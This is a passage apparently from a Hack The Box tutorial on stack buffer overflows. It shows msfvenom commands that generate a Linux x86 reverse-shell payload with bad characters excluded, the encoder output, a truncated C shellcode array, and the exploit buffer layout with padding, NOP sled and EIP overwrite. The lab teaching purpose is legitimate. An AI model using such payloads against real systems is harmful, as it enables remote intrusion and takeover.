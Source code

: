 But before we generate our shellcode, we have to make sure that the individual components and properties match the target system. Therefore we have to pay attention to the following areas:

-   `Architecture`
-   `Platform`
-   `Bad Characters`

#### MSFvenom Syntax

MSFvenom Syntax

```shell-session
W4H33D@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

#### MSFvenom - Generate Shellcode

MSFvenom - Generate Shellcode

```shell-session
W4H33D@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

#### Shellcode

Shellcode

```shell-session
W4H33D@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.

#### Notes

Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```
